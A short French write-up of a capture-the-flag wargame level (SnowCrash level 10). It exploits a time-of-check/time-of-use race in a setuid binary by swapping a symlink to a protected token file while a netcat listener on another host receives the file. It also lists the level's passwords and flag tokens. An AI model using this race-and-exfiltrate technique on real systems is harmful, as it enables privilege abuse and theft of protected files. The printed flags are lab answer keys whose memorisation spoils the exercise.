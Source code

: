 # LEVEL 10

**LOGIN: level10**

**PASSWORD: s5cAJpM8ev6XHw998pRWG728z**

 ----
 
 ```
 level10@SnowCrash:~$ ls -l; echo; file level10 ; echo ; cat token
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token

level10: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf7e21fb68568fa57d6317d0535b97d9fca66f841, not stripped

cat: token: Permission denied
```
```
/level10 
./level10 file host
	sends file to host if you have access to it
```

Ok un peu de reseau ? 

`level10@SnowCrash:~$ touch file host`
```
level10@SnowCrash:~$ strace -s 1000 ./level10 file host
...
access("file", R_OK)                    = 0
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 0), ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7fda000
write(1, "Connecting to host:6969 .. ", 27Connecting to host:6969 .. ) = 27
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(6969), sin_addr=inet_addr("255.255.255.255")}, 16) = -1 ENETUNREACH (Network is unreachable)
....
```

Le programme utilies `access` pour vérifier les droits au fichier passé en argument ... on image pouvoir utiliser un Exploiting Race Condition. 
Puis, il crée une connection sur l'ip passée en paramètre sur le port 6969

On ouvre donc une connection en attente sur ce port 
`nc -l -k -p 6969`

puis
`./level10 file 192.168.0.18 & ln -sf token file`

et on recoit bien le token.

**TOKEN: woupa2yuojeeaaed06riuj63c**

```
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```


